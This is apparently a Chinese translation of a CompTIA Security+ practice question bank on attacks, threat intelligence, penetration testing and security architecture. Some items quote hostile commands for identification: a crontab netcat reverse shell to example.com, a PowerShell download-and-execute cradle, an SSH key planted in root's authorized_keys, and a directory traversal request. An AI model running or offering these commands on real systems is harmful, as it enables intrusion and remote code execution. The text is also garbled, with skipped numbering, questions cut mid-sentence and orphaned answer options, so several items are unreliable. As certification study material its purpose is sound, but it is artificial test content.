  - D. 侵入式扫描

- 80. Steve 在系统上发现了以下代码。它用什么语言编写，以及它有什么作用？

```
import socket as skt
for port in range(1, 9999):
    try:
        sc = skt.socket(skt.AF_INET, skt.SOCK_STREAM)
        sc.settimeout(900)
        sc.connect(('127.0.0.1', port))
        print '%dOPEN' % (port)
        sc.close()
    except:
        continue
```

  - A. Perl，漏洞扫描
  - B. Python，端口扫描
  - C. Bash，漏洞扫描
  - D. PowerShell，端口扫描

- 81. 以下哪项常用于分布式拒绝服务（DDoS）攻击？

  - A. 网络钓鱼
  - B. 广告软件
  - C. 僵尸网络
  - D. 特洛伊木马

- 87. 侵入式和非侵入式漏洞扫描的主要区别是什么？

  - A. 侵入式扫描就是渗透测试。
  - B. 非侵入式扫描只是文档检查。
  - C. 侵入式扫描可能潜在地干扰运营。
  - D. 非侵入式扫描无法发现大多数漏洞。

- 88. 你的公司将会计应用程序的开发外包给了一家本地编程公司。使用该产品三个月后，你的管理员之一发现开发人员插入了一种登录并绕过所有安全和身份验证的方法。以下哪项最能描述这种情况？

  - A. 逻辑炸弹
  - B. 特洛伊木马
  - C. 后门
  - D. Rootkit

- 89. Daryl 正在调查最近针对公司 Web 服务器的入侵事件。攻击者使用了复杂的技术，然后篡改了网站，留下了谴责公司公共政策的留言。他和团队正在尝试确定最可能实施入侵的行为者类型。根据提供的信息，最可能的威胁行为者是谁？

  - A. 脚本
  - B. 国家级行为者
  - C. 有组织犯罪
  - D. 黑客活动分子（Hacktivists）

- 90. 哪两种技术最常与 pharming（域名劫持/欺骗）攻击相关联？

  - A. 修改 PC 上的 `hosts` 文件或利用可信 DNS 服务器上的 DNS 漏洞
  - B. 向许多用户发送钓鱼邮件并从他们那里收集电子邮件地址
  - C. 向许多用户发送钓鱼邮件并从他们那里收集大量密码
  - D. 欺骗 DNS 服务器 IP 地址或修改 PC 上的 `hosts` 文件

- 91. Angela 查看她网站的认证日志，发现许多不同账户使用同一组密码进行尝试。这种攻击技术称为什么？

  - A. 暴力破解
  - B. 密码喷洒
  - C. 受限登录攻击
  - D. 账户轮换

- 104. Valerie 负责公司应用的安全测试。她发现一个 Web 应用程序在特定条件下可能产生内存泄漏。这会使应用程序容易遭受哪种类型的攻击？

  - A. DoS（拒绝服务）
  - B. 后门
  - C. SQL 注入
  - D. 缓冲区溢出

- 105. Jack 花了去年一年时间开发的手机游戏已经发布，恶意行为者正在向运行该游戏的服务器发送流量，以阻止它与 App Store 中的其他游戏竞争。这是哪种类型的拒绝服务攻击？

  - A. 网络 DDoS
  - B. 运营技术 DDoS
  - C. GDoS（游戏拒绝服务）
  - D. 应用层 DDoS

- 106. Charles 的任务是组建一个团队，结合攻击者和防御者的技术来帮助保护他的组织。他正在组建什么类型的团队？

  - A. 红队
  - B. 蓝队
  - C. 白队
  - D. 紫队

- 107. Mike 是一家小型金融服务公司的网络管理员。他收到一个弹出窗口，声称他的文件已被加密，他必须支付 0.5 比特币才能解密。他试图检查相关文件，但它们的扩展名已经改变，无法打开。以下哪项最能描述这种情况？

  - A. Mike 的机器上有 Rootkit。
  - B. Mike 的机器上有勒索软件。
  - C. Mike 的机器上有逻辑炸弹。
  - D. Mike 的机器成为了“鲸钓”（whaling）攻击的目标。

- 108. 当一个多线程应用程序没有正确处理多个线程访问一个公共值，并且一个线程可以在另一个线程依赖该数据时更改数据，这是什么缺陷？

  - A. 内存泄漏
  - B. 缓冲区溢出
  - C. 整数溢出
  - D. 检查时间/使用时间（TOCTOU）竞态条件

- 109. Acme 公司正在使用智能卡，这些智能卡使用近场通信（NFC）而非需要刷卡。这是为了使对安全区域的物理访问更安全。这也可能造成什么漏洞？

  - A. 跟随进入
  - B. 窃听
  - C. IP 欺骗
  - D. 竞态条件

- 110. Rick 认为其组织中的 Windows 系统正受到无文件病毒的攻击。如果他想捕获其感染过程的痕迹，以下哪个选项最有可能让他了解它们正在做什么？

  - A. 查看受感染机器的全盘镜像
  - B. 开启 PowerShell 日志记录
  - C. 禁用管理员用户账户
  - D. 分析 Windows 崩溃转储文件

- 111. John 负责大型制造工厂的物理安全。员工都使用智能卡打开前门并进入设施。以下哪种是攻击者规避此系统的常见方式？

  - A. 钓鱼
  - B. 跟随进入
  - C. 智能卡欺骗
  - D. RFID 欺骗

- 112. Adam 想使用 STIX 和 TAXII 下载恶意或不可信的 IP 地址和域名的列表。他在寻找什么类型的服务？

  - A. 漏洞源
  - B. 威胁情报源
  - C. 威胁狩猎源
  - D. 规则源

- 113. 在一次事件调查中，Naomi 注意到公司大楼公共区域的一台系统上插入了第二个键盘。事件发生后不久，该系统感染了恶意软件，导致数据泄露。Naomi 在现场调查中应寻找什么？

  - A. 木马下载
  - B. 恶意 USB 电缆或驱动器
  - C. 蠕虫
  - D. 以上都不是

- 114. 你负责 Acme Corporation 的事件响应。你发现有人能够绕过特定网络应用程序的 Windows 身份验证过程。看起来攻击者获取了密码的存储哈希并直接发送到后端身份验证服务，从而绕过了应用程序。这是什么类型的攻击？

  - A. 哈希欺骗
  - B. 恶意双胞胎
  - C. Shim 攻击
  - D. 哈希传递

- 115. 你公司的一名用户报告称她接到一个自称是公司技术支持团队的人的电话。来电者称公司内正在传播病毒，他们需要立即访问员工的电脑以防止其被感染。来电者使用了什么社会工程学原则来试图欺骗员工？

  - A. 紧迫性和恐吓
  - B. 紧迫性和权威
  - C. 权威和信任
  - D. 恐吓和权威

- 116. 运行漏洞扫描后，Elaine 发现公司仓库中的 Windows 10 工作站容易受到多种已知 Windows 漏洞利用的影响。她在向管理层报告时应将什么确定为根本原因？

  - A. 不受支持的操作系统
  - B. 操作系统修补管理不当或薄弱
  - C. 系统固件修补管理不当或薄弱
  - D. 使用不安全协议

- 117. Ahmed 发现攻击者伪造了 IP 地址，使其解析到不同的硬件地址。该操作改变了本地网络默认网关维护的表，导致原本发往特定 MAC 地址的数据现在被路由到其他地方。这是什么类型的攻击？

  - A. ARP 欺骗
  - B. DNS 欺骗
  - C. 路径上攻击
  - D. 后门

- 118. 当测试人员被给予目标网络的广泛知识时，进行的是什么类型的渗透测试？

  - A. 已知环境
  - B. 完全公开
  - C. 未知环境
  - D. 红队

- 119. 你公司正在推行新的安全意识计划。你负责向终端用户教育各种威胁，包括社会工程学。以下哪项最能定义社会工程学？


- A. 非法复制软件
- B. 从丢弃的手册和打印件中收集信息
- C. 利用人际交往技能获取专有信息
- D. 钓鱼邮件

- 120. 以下哪种攻击可能是由于用户对周围物理环境缺乏意识而造成的？
    - A. ARP 欺骗
    - B. 钓鱼
    - C. 肩窥
    - D. Smurf 攻击

- 121. 发票诈骗的两个最常见目标是什么？
    - A. 收取金钱或获取凭据
    - B. 获取凭据或投递 rootkit
    - C. 收取金钱或窃取加密货币
    - D. 获取凭据或投递勒索软件

- 122. 以下哪种类型的测试使用自动化流程主动识别网络中存在的计算系统的漏洞？
    - A. 安全审计
    - B. 漏洞扫描
    - C. 已知环境测试
    - D. 未知环境测试

- 123. John 被要求对一家公司进行渗透测试。他被提供了一般信息但没有网络的详细信息。这是什么类型的测试？
    - A. 部分已知环境
    - B. 已知环境
    - C. 未知环境
    - D. 掩盖

- 124. 在哪种类型的攻击中，攻击者的系统对真实客户端表现为服务器，而对真实服务器表现为客户端？
    - A. 拒绝服务
    - B. 重放
    - C. 窃听
    - D. 路径上

- 125. 你是 Acme Corporation 的安全管理员。你在公司部分机器上发现了恶意软件。该恶意软件似乎拦截浏览器对库的调用，然后操纵浏览器调用。这是什么类型的攻击？
    - A. 浏览器中的中间人
    - B. 路径上攻击
    - C. 缓冲区溢出
    - D. 会话劫持

- 126. Tony 正在审查一个 Web 应用程序，发现网站生成如下链接：

    ```
    https://www.example.com/login.html?Relay=http%3A%2F%2Fexample.com%2Fsite.html
    ```

    - A. SQL 注入
    - B. URL 重定向
    - C. DNS 欺骗
    - D. LDAP 注入

- 127. 你负责 Acme Corporation 的软件测试。你想检查所有软件是否存在可能被攻击者利用进入软件或网络的漏洞。你发现一个 Web 应用程序允许用户尝试将 64 位值放入 4 字节整数变量中。这是什么类型的缺陷？
    - A. 内存溢出
    - B. 缓冲区溢出
    - C. 变量溢出
    - D. 整数溢出

- 128. Angela 发现针对其网站部分用户的攻击，利用 URL 参数和 Cookie 使合法用户执行非预期操作。她最可能发现了什么类型的攻击？
    - A. SQL 注入
    - B. 跨站请求伪造
    - C. LDAP 注入
    - D. 跨站脚本

- 129. Nathan 在受损用户的目录中发现了以下代码。它使用什么语言，以及它会做什么？

    ```
echo "ssh-rsa ABBAB4KAE9sdaFK...Mq/jc5YLfnAnbFDRABMhuWzaWUp
root@localhost" >> /root/.ssh/authorized_keys
    ```

    - A. Python，添加授权 SSH 密钥
    - B. Bash，使用 SSH 密钥连接到另一系统
    - C. Python，使用 SSH 密钥连接到另一系统
    - D. Bash，添加授权 SSH 密钥

- 130. Jared 在多名用户的 workstation 上发现了恶意软件。这种恶意软件为外部黑客提供对 workstation 的管理员权限。最能描述这种恶意软件的是什么？
    - A. 木马
    - B. 逻辑炸弹
    - C. 多态病毒
    - D. Rootkit

- 131. 为什么内存泄漏是潜在的安全问题？
    - A. 它们可能泄露敏感数据。
    - B. 它们可能允许攻击者通过泄漏注入代码。
    - C. 它们可能导致崩溃。
    - D. 以上都不是

- 132. Michelle 发现组织内多台系统正在连接到 TCP 端口 6667 上的不断变化的远程系统。如果她认为该流量不合法，最可能的原因是什么？
    - A. Web 流量的替代服务端口
    - B. 通过 IRC 的僵尸网络命令与控制
    - C. 通过点对点网络下载
    - D. 远程访问木马

- 133. Susan 对一家小型企业网络进行漏洞扫描，发现组织的消费级无线路由器其 Web 服务器存在漏洞。她在发现中应解决什么问题？
    - A. 固件补丁管理
    - B. 默认配置问题
    - C. 未受保护的管理员账户
    - D. 弱加密设置

- 134. 作为渗透测试的一部分，RFID 攻击最可能发生在何处？
    - A. 系统身份验证
    - B. 门禁卡
    - C. Web 应用程序访问
    - D. VPN 登录

- 135. 通过短信进行的钓鱼攻击类型是什么？
    - A. 蓝牙劫持
    - B. 短信钓鱼
    - C. 电话劫持
    - D. 文本捕鲸

- 136. 贵公司的用户报告称，有人一直在拨打他们的分机，声称正在为一家大型供应商进行一项调查。根据调查中提出的问题，你怀疑这是一场旨在套取公司员工信息的骗局。以下哪项最能描述这种情况？
    - A. 鱼叉式网络钓鱼
    - B. 语音钓鱼
    - C. 战争拨号
    - D. 机器人电话

- 137. 约翰正在分析公司网络上最近发生的一次恶意软件感染事件。他发现一种恶意软件可以通过易受攻击的网络服务快速传播，并且不需要用户进行任何交互。以下哪项最能描述这种恶意软件？
    - A. 蠕虫
    - B. 病毒
    - C. 逻辑炸弹
    - D. 特洛伊木马

- 138. 贵公司发布了一些新的安全指令。其中一项新指令是：所有文件在丢弃前必须进行粉碎处理。这试图防止哪种类型的攻击？
    - A. 网络钓鱼
    - B. 垃圾搜寻
    - C. 肩窥
    - D. 路径攻击

- 139. 以下哪项不是渗透测试后清理过程中的常见部分？
    - A. 从受感染系统中移除所有可执行文件和脚本
    - B. 将系统中的所有根工具包恢复为其原始设置
    - C. 将所有系统设置和应用程序配置恢复为其原始配置
    - D. 删除渗透测试期间创建的任何用户账户

- 140. 你发现有人一直在尝试登录你的 Web 服务器。此人尝试了大量可能使用的密码。这是哪种类型的攻击？
    - A. 彩虹表攻击
    - B. 生日攻击
    - C. 字典攻击
    - D. 欺骗攻击

- 141. 吉姆发现一个物理设备被附在加油站的信用卡读卡器上。他可能发现了哪种类型的攻击？
    - A. 重放攻击
    - B. 竞争条件攻击
    - C. 磁条读取器
    - D. 卡片克隆器

- 142. 主动侦察和被动侦察的主要区别是什么？
    - A. 主动侦察手动完成，被动侦察使用工具完成。
    - B. 主动侦察使用黑盒测试，被动侦察使用白盒测试。
    - C. 主动侦察通常由攻击者执行，被动侦察由测试人员执行。
    - D. 主动侦察会实际连接到网络且可能被检测到；被动侦察则不会。

- 143. 浏览器工具栏是哪种类型的恶意软件的示例？
    - A. 根工具包
    - B. 远程访问木马
    - C. 蠕虫
    - D. 潜在有害程序

- 144. 什么术语描述从公开可用来源收集并可用于情报领域的数据？
    - A. OPSEC
    - B. OSINT
    - C. IntCon
    - D. STIX

- 145. 哪种类型的攻击通过感染某个特定用户群体经常访问的一个或多个网站来针对该群体？
    - A. 饮水机攻击
    - B. 网络钓鱼网攻击
    - C. 水坑攻击
    - D. 钓鱼池攻击

- 146. 特蕾西担心她的目录服务器会受到 LDAP 注入攻击。以下哪项不是防止 LDAP 注入攻击的常用技术？
    - A. LDAP 的安全配置
    - B. 用户输入验证
    - C. LDAP 查询参数化
    - D. 输出过滤规则

- 147. 弗雷德使用 Tor 代理浏览网站，作为其威胁情报工作的一部分。通常使用什么术语来描述互联网的这一部分？
    - A. 镜中奇境
    - B. 暗网
    - C. 地下网
    - D. 洋葱空间

- 148. 什么浏览器功能有助于防止成功的 URL 重定向攻击？
    - A. 证书过期跟踪
    - B. 显示完整的真实 URL
    - C. 禁用 Cookie
    - D. 启用 JavaScript

- 149. 基于云服务的漏洞和本地部署的漏洞之间最显著的区别是什么？
    - A. 您自行修复漏洞的能力
    - B. 漏洞的严重程度
    - C. 修复所需的时间
    - D. 您对数据泄露的责任

- 150. 克里斯蒂娜对客户网络进行漏洞扫描，发现网络上一台消费级无线路由器返回了显示默认登录凭据的结果。她遇到了什么常见的配置问题？
    - A. 未修补的设备
    - B. 不受支持的设备
    - C. 不安全的 administrator 账户
    - D. 不安全的用户账户

- 151. 哪种类型的团队使用真实攻击者会使用的工具和技术来测试安全性？
    - A. 红队
    - B. 蓝队
    - C. 白队
    - D. 紫队

- 152. 在审查其组织网站的 Web 日志时，凯瑟琳发现了如下所示的条目：

    ```
GET http://example.com/viewarticle.php?view=../../../config.txt HTTP/1.1
    ```

    - A. 目录遍历攻击
    - B. Web 应用程序缓冲区溢出攻击
    - C. 目录递归攻击
    - D. 斜杠点攻击

- 153. SOAR 和 SIEM 系统之间的关键区别是什么？
    - A. SOAR 集成了更广泛的应用程序。
    - B. SIEM 包括威胁和漏洞管理工具。
    - C. SOAR 包括安全运营自动化。
    - D. SIEM 包括安全运营自动化。

- 154. 贵公司聘请了一家渗透测试公司来测试网络。在测试中，您向该公司提供了您使用的操作系统、运行的应用程序和网络设备等详细信息。以下哪项最能描述这种类型的测试？
    - A. 已知环境测试
    - B. 外部测试
    - C. 未知环境测试
    - D. 威胁测试

- 155. 哪两个文件通常成为离线暴力破解攻击的目标？
    - A. Windows 注册表和 Linux `/etc/passwd` 文件
    - B. Windows `SAM` 和 Linux `/etc/passwd` 文件
    - C. Windows `SAM` 和 Linux `/etc/shadow` 文件
    - D. Windows 注册表和 Linux `/etc/shadow` 文件

- 156. SSL 剥离攻击是哪种类型的攻击？
    - A. 暴力破解攻击
    - B. 特洛伊木马攻击
    - C. 路径攻击
    - D. 降级攻击

- 157. 美国“可信代工”计划旨在帮助防止哪种类型的攻击？
    - A. 关键基础设施攻击
    - B. 金属加工和铸造攻击
    - C. 供应链攻击
    - D. 软件源代码攻击

- 158. 妮可希望通过多家服务提供商以可视化方式向组织管理层展示来自世界各地的攻击的实时数据。通常使用哪种类型的威胁情报工具来实现此目的？
    - A. 饼图
    - B. 威胁地图
    - C. 暗网追踪器
    - D. OSINT 仓库

- 159. 你注意到在拥挤的区域，手机中的数据被窃取了。后续调查显示有一个无法解释的蓝牙连接到了你的手机。什么描述了这种攻击？
    - A. 蓝劫持
    - B. 蓝窃
    - C. 邪恶双子
    - D. 远程访问木马

- 160. 测试的类型和范围、客户联系方式、敏感数据的处理方式、状态会议和报告的类型及频率，这些都是渗透测试哪项工件的常见要素？
    - A. 黑盒大纲
    - B. 交战规则
    - C. 白盒大纲
    - D. 收尾报告

- 161. 阿曼达遇到了一个 Bash 脚本，运行了以下命令：

    ```
crontab -e 0 * * * * nc example.com 8989 -e /bin/bash
    ```

    - A. 它每小时检查一次时间。
    - B. 它每分钟从 example.com 拉取数据。
    - C. 它设置了一个反向 shell。
    - D. 以上都不是

- 162. 一名渗透测试人员打电话给查尔斯所在公司的技术支持人员，声称自己是一位高级主管，由于几分钟后就要开始一个重要会议，需要立即更改密码。技术支持人员将主管的密码改为渗透测试人员提供的密码。渗透测试人员利用了哪种社会工程学原则来实施这次攻击？
    - A. 恐吓
    - B. 稀缺性
    - C. 紧迫性
    - D. 信任

- 163. 帕特里克订阅了一个商业威胁情报源，该情报源仅向通过审查并支付月费的订阅者提供。业界用什么术语来指代这种类型的威胁情报？
    - A. 专有威胁情报
    - B. OSINT
    - C. ELINT
    - D. 企业威胁情报

- 164. 什么威胁狩猎概念涉及
    - B. 威胁狩猎
    - C. 渗透测试
    - D. 漏洞扫描

- 187. 为什么攻击者会针对存储在内存中的密码？
    - A. 它们在内存中是加密的。
    - B. 它们在内存中是哈希的。
    - C. 它们通常以明文形式存在。
    - D. 它们通常会被解密后使用。

- 188. 美国国土安全部（DHS）提供一项自动指标共享（AIS）服务，允许联邦政府和私营部门组织实时共享威胁数据。AIS 服务使用开源协议和标准来交换这些信息。以下哪种标准是 AIS 服务使用的？
    - A. HTML 和 HTTPS
    - B. SFTP 和 XML
    - C. STIX 和 TRIX
    - D. STIX 和 TAXII

- 189. 在渗透测试的哪个阶段会收集员工姓名、电话号码和电子邮件地址等信息？
    - A. 利用
    - B. 建立持久性
    - C. 侦察
    - D. 横向移动

- 190. 在一次渗透测试中，安吉拉获得了某知名快递服务的制服并穿着进入目标办公室。她声称有一份送给她知道在场的 C 级员工的包裹，并坚持该包裹必须由该人签收。她使用了什么社会工程技术？
    - A. 冒充
    - B. 捕鲸式攻击
    - C. 水坑攻击
    - D. 前置

- 191. 尼克通过一家灰色市场供应商购买其网络设备，该供应商在没有与网络设备制造商正式关系的情况下将其进口到他的地区。尼克在评估其供应链风险时应识别什么风险？
    - A. 缺乏厂商支持
    - B. 缺乏保修覆盖
    - C. 无法验证设备的来源
    - D. 以上所有

- 192. 克里斯蒂娜想要识别其组织运行的基于 XML 的 Web 应用程序的攻击指标。她最有可能在哪里找到可以帮助她确定是否对其 Web 应用程序进行 XML 注入的信息？
    - A. Syslog
    - B. Web 服务器日志
    - C. 身份验证日志
    - D. 事件日志

- 193. 弗兰克可以做什么来确定他是否正在遭受针对其云托管环境的拒绝服务（DoS）攻击？
    - A. 什么都不能做；云服务不提供安全工具。
    - B. 致电云服务提供商让他们停止 DoS 攻击。
    - C. 查看云服务提供商的安全工具，并在存在的情况下启用日志记录和反 DoS 工具。
    - D. 致电云服务提供商的互联网服务提供商（ISP）并要求他们启用 DoS 防护。

- 194. 弗兰克使用的是云托管服务的 Web 发布服务，而不是运行自己的 Web 服务器。弗兰克需要查看哪里来审查日志以查看其应用程序创建了哪些类型的流量？
    - A. Syslog
    - B. Apache 日志
    - C. 云服务的 Web 日志
    - D. 以上都不是

- 195. 如果弗兰克仍在自己的本地基础设施中运行，以下哪种技术将最能提供有关他所看到的攻击类型的洞察？
    - A. 防火墙
    - B. 入侵防御系统
    - C. 漏洞扫描器
    - D. 反恶意软件

- 196. Alaina 希望确保与她公司合作的供应商所进行的现场系统集成符合行业最佳实践。以下哪项不是确保这一点的常见方法？
    - A. 在合同中加入安全要求
    - B. 审计配置
    - C. 在安装期间和安装后与供应商协调进行安全审查
    - D. 要求提供 SOC 报告

- 197. Elias 实施了一个基于 AI 的网络流量分析工具，该工具要求他在工具全面投入生产之前，允许其监控他的网络两周。在使用该 AI 的基线化能力之前，他需要解决的最重要的问题是什么？
    - A. 网络应该被隔离，以防止出站流量被添加到正常流量模式中。
    - B. 受损的或其他恶意的机器可能会被添加到基线中，从而导致训练数据受到污染。
    - C. 流量模式可能与更长时间范围内的流量不匹配。
    - D. AI 可能无法理解他网络中的流量。

- 198. 黑客行动主义者的典型目标或意图是什么？
    - A. 提高他们的声誉
    - B. 获取经济利益
    - C. 发表政治声明
    - D. 收集高价值数据

- 199. 用于威胁情报预测分析的信息来自哪里？
    - A. 当前安全趋势
    - B. 大型安全数据集
    - C. 行为模式
    - D. 以上全部

- 200. 社会安全号码和其他个人信息经常被窃取，其目的是什么？
    - A. 敲诈勒索
    - B. 尾随
    - C. 身份欺诈
    - D. 冒充

- 201. 安全编排、自动化和响应（SOAR）工具具有三个主要组件。以下哪项不是这些组件之一？
    - A. 源代码安全分析和测试
    - B. 威胁和漏洞管理
    - C. 安全事件响应
    - D. 安全运营自动化

- 202. 直接访问、无线、电子邮件、供应链、社交媒体、可移动介质和云都是什么的例子？
    - A. 威胁情报来源
    - B. 威胁向量
    - C. 威胁行为者的属性
    - D. 漏洞

- 203. SourceForge 和 GitHub 都是哪种类型的威胁情报来源的示例？
    - A. 暗网
    - B. 自动化指标共享来源
    - C. 文件或代码仓库
    - D. 公共信息共享中心

- 204. 不当输入处理的根本原因是什么？
    - A. 不当的错误处理
    - B. 信任数据输入而不是验证数据输入
    - C. 缺乏用户意识
    - D. 不当的源代码审查

- 205. Claire 发现了以下 PowerShell 脚本。它会做什么？


```
powershell.exe -ep Bypass -nop -noexit -c iex ((New-Object Net.WebClient).DownloadString('https://example.com/file.ps1'))
```

- A. 下载一个文件并打开远程 shell

- B. 上传一个文件并删除本地副本

- C. 将文件下载到内存中

- D. 从内存中上传文件

206. Kathleen 的 IPS 标记了来自两个 IP 地址的流量，如下所示：

```
Source IP: 10.11.94.111
http://example.com/home/show.php?SESSIONID=a3fgh bby
Source IP: 192.168.5.34
http://example.com/home/show.php?SESSIONID=a3fgh bby
```

她应该将此调查为什么类型的攻击？

- A. SQL 注入攻击

- B. 跨站脚本攻击

- C. 会话重放攻击

- D. 服务器端请求伪造攻击

207. 对于 Security+ 考试，你需要了解七个影响类别。以下哪项不是其中之一？

- A. 数据泄露

- B. 数据篡改

- C. 数据外泄

- D. 数据丢失

208. 在获取威胁情报时，以下哪个研究来源通常时效性最差？

- A. 漏洞信息源

- B. 本地行业团体

- C. 学术期刊

- D. 威胁信息源

209. 在审查她维护的服务器上的认证日志时，Megan 注意到以下日志条目：

```
Apr 26 20:01:32 examplesys rshd[6101]: Connection from 10.0.2.15 on illegal port
Apr 26 20:01:48 examplesys rshd[6117]: Connection from 10.0.2.15 on illegal port
Apr 26 20:02:02 examplesys rshd[6167]: Connection from 10.0.2.15 on illegal port
Apr 26 20:02:09 examplesys rshd[6170]: Connection from 10.0.2.15 on illegal port
Apr 26 20:02:09 examplesys rshd[6172]: Connection from 10.0.2.15 on illegal port
Apr 26 20:02:35 examplesys rshd[6188]: Connection from 10.0.2.15 on illegal port
Apr 26 20:02:35 examplesys rlogind[6189]: Connection from 10.0.2.15 on illegal port
```

她最可能检测到了什么？

- A. 一次成功的黑客攻击尝试

- B. 一次失败的服务启动

- C. 一次漏洞扫描

- D. 一次系统重启

210. 下图显示了来自 OpenVAS 漏洞扫描的报告。Charles 应该首先做什么来确定所示漏洞的最佳修复方案？



- A. 禁用 PHP-CGI。

- B. 将 PHP 升级到 5.4 版本。

- C. 查看所列 CVE 中的漏洞描述。

- D. 禁用 Web 服务器。


## 第 2 章

### 架构与设计

本章涵盖的 CompTIA Security+ 考试 SY0-601 主题包括以下内容：

- **2.1** 解释安全概念在企业环境中的重要性

- **2.2** 总结虚拟化和云计算概念

- **2.3** 总结安全应用程序开发、部署和自动化概念

- **2.4** 总结身份验证和授权设计概念

- **2.5** 在给定场景下，实施网络安全弹性

- **2.6** 解释嵌入式系统和专用系统的安全影响

- **2.7** 解释物理安全控制的重要性

- **2.8** 总结密码学概念的基础知识

10. Olivia 希望确保作为其应用程序一部分执行的代码不会被篡改，并且应用程序本身也不会被篡改。她应该使用以下哪种解决方案，为什么？

A. 服务器端执行和验证，因为它可以防止数据和应用程序被篡改

B. 客户端验证和服务器端执行，以确保客户端数据访问

C. 服务器端验证和客户端执行，以防止数据篡改

D. 客户端执行和验证，因为它可以防止数据和应用程序被篡改

11. Trevor 想使用一种廉价的设备来构建一个可以监控流程的定制嵌入式系统。如果他想在避免系统或设备被入侵的可能性的同时，最大限度地减少费用并最大限度地提高简便性，以下哪个选项最适合？

A. 树莓派（Raspberry Pi）

B. 定制 FPGA

C. 重新利用的台式电脑

D. Arduino

12. Amanda 想在她发送给 Maria 的电子邮件上使用数字签名。她应该使用哪个密钥来签署电子邮件？

A. Maria 的公钥

B. Amanda 的公钥

C. Maria 的私钥

D. Amanda 的私钥

13. Nick 想让加密密钥更难破解，他将密钥长度增加一位，从 128 位加密密钥增加到 129 位加密密钥，以此为例解释这个概念。如果无法应用其他攻击或技术，攻击者使用暴力破解来破解该密钥需要多做多少工作？

A. 多做一次

B. 多做 129 次

C. 两倍的工作量

D. 四倍的工作量

14. Gurvinder 知道 OpenSSL passwd 文件通过使用 1,000 轮 MD5 哈希来保护密码信息。这种技术叫什么？

A. 旋转哈希

B. 密钥轮换

C. 密钥拉伸

D. 哈希迭代

- **C.** 入侵检测系统（IDS）

- **D.** 蜜网

21. 什么类型的系统用于控制和监控发电厂的发电系统？

**A.** IPG

**B.** SEED

**C.** 监控与数据采集系统（SCADA）

**D.** ICD

22. 现代密码系统的哪个主要技术组件可能易受量子攻击？

**A.** 密钥生成

**B.** 椭圆曲线算法

**C.** 三次根曲线密码学

**D.** 质因数分解算法

23. Geoff 想与一家公司签订合同，以获得配备齐全且随时可用的数据中心空间，以便在发生灾难时将他的数据带到该地点。他在寻找哪种类型的灾难恢复站点？

**A.** 热站点

**B.** 冷站点

**C.** 温站点

**D.** RTO 站点

24. Olivia 需要确保物联网设备在售出后，其操作系统不会被第三方修改。她应该实施什么解决方案来确保这种情况不会发生？

**A.** 设置默认密码。

**B.** 要求固件经过签名和加密。

**C.** 检查新固件版本的 MD5sum。

**D.** 定期打补丁。

25. 在后量子密码学世界中，哪项陈述预计是正确的？

**A.** 加密速度将以量子比特来衡量。

**B.** 非量子密码系统将不再安全。

**C.** 量子加密将不再相关。

**D.** 将需要使用超过 4,096 位的 RSA 密钥长度。

26. 计数器模式在密码系统中执行什么功能？

**A.** 它逆转加密过程。

**B.** 它将分组密码转换为流密码。

- C. 它将流密码转换为分组密码。

- D. 它允许公钥解锁私钥。

- **27.** 以下哪项不包含在区块链的公共账本中？

    - A. 网络参与者之间所有真实交易的记录

    - B. 存储在区块链中的加密货币余额（或其他数据）的记录

    - C. 区块链参与者的身份

    - D. 用于标识交易所依据的权限的令牌

- **28.** 苏珊负责她公司的应用程序开发。她希望所有 Web 应用程序在上线部署前都经过测试。她希望使用一个与实时服务器相同的测试系统。这叫什么？

    - A. 生产服务器

    - B. 开发服务器

    - C. 测试服务器

    - D. 预部署服务器

- **29.** 亚历山德拉准备对她组织中开发人员已完成的代码运行自动安全测试。如果下一步是将代码部署到生产环境，她最有可能在哪个环境中运行这些测试？

    - A. 开发

    - B. 测试

    - C. 预发布

    - D. 生产

- **30.** 克里斯希望限制谁可以使用他公司提供的 API，并能够将 API 使用情况唯一地记录到他们提供访问权限的每个组织。最常用于此的解决方案是什么？

    - A. 针对每个公司公网 IP 地址设置规则的防火墙

    - B. 每个公司的用户凭据

    - C. API 密钥

    - D. API 密码

- **31.** 德雷克被指派评估智能电表的 f. 以下哪项不是像智能电表这样的嵌入式系统的常见关注点？

    - A. 窃听

    - B. 拒绝服务

    - C. 远程断开连接

    - D. SQL 注入

- **32.** 塞拉想要分析针对她组织中已部署的类似系统的真实攻击模式。她希望看到被入侵系统上的本地命令，并能够访问攻击者通常会部署的任何工具或其他材料。她可以用什么类型的技术来实现这一点？

    - A. 蜜罐

    - B. 入侵防御系统

    - C. 入侵检测系统

    - D. Web 应用防火墙

- **33.** 查尔斯设置了一个具有故意漏洞的网络，然后对其进行仪器化，以便他可以监视攻击者并捕获其攻击和技术的细节。查尔斯设置了什么？

    - A. 黑洞

    - B. 蜜洞

    - C. 间谍网

    - D. 蜜网

- **34.** 玛丽亚是制造公司的安全工程师。在最近一次调查中，她发现一名工程师的受损工作站被用于在工程师未登录时连接到 SCADA 系统。该工程师负责管理 SCADA 系统，不能阻止其连接。玛丽亚应采取什么措施来缓解此威胁？

    - A. 在工程师的系统上安装基于主机的防病毒软件。

    - B. 在 SCADA 系统上实施账户使用审计。

    - C. 在 SCADA 系统上实施 NIPS。

    - D. 在工程师的系统上使用 FDE。

- **35.** AES 和 DES 是什么类型密码的示例？

    - A. 将明文符号组整体加密的流密码

    - B. 将明文符号组整体加密的分组密码

    - C. 每次加密一个明文符号的流密码

    - D. 每次加密一个明文符号的分组密码

- **36.** 杰拉德负责与他公司电子商务服务器的安全通信。所有与服务器的通信均使用 TLS。杰拉德将私钥存储在电子商务服务器上的最安全选项是什么？

    - A. HSM

    - B. FDE

    - C. SED

    - D. SDN

- **37.** 转发网关在云服务中起什么作用？

    - A. 它连接云数据中心内部的系统。

    - B. 它连接虚拟私有云和本地网络。

    - C. 它在信任区域之间提供 API 网关。

    - D. 它允许多云基础设施设计。

- **38.** 你公司中的 Web 开发人员目前可以直接访问生产服务器并直接向其部署代码。这可能导致不安全的代码，或仅仅是代码缺陷被部署到实时系统。你可以做出的最佳更改来缓解此风险是什么？

    - A. 实施沙箱。

    - B. 实施虚拟化服务器。

    - C. 实施预发布服务器。

    - D. 实施部署策略。

- **39.** 由于在多因素身份验证推广中使用 SMS，伊恩担心组织中使用的 VoIP 电话。他应该担心哪种类型的攻击？

    - A. 语音钓鱼攻击

    - B. 语音邮件劫持

    - C. SMS 令牌重定向

    - D. 弱多因素代码注入

- **40.** 安吉拉希望确保她组织中的物联网设备在部署时具有安全配置，并且已准备好进行特定用途的进一步配置。用于描述作为其配置管理计划一部分使用的这些标准配置的术语是什么？

    - A. 基线配置

    - B. 必要设置列表

    - C. 预安装检查清单

    - D. 设置指南

- **41.** 为什么供暖、通风和空调（HVAC）是组织安全规划的一部分？

